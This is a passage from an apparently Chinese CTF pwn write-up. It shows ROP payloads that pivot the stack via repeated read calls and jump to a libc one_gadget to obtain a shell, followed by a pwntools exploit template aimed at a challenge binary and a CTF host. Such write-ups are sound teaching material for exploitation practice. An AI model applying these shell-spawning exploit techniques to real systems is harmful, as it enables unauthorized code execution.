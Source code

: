 重复刚才的1、2的步骤

```plain
pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)
```

将og送入，从而getshell

```plain
r12 = 0x000000000002f709+libc_base
og = libc_base + 0xe3afe

pl =  p64(0) +  p64(r12)+ p64(0) +p64(og) #p64(ret)+p64(rdi)+p64(bin_sh)+p64(system) #5 
#dbg()
p.send(pl)
```

og的模板exp:

```plain
#encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time

context.os = 'linux'
context.arch = 'amd64'
#context.arch = 'i386'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('node.yuzhian.com.cn',30686)
else:
    p = process(name)

elf = ELF(name)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

```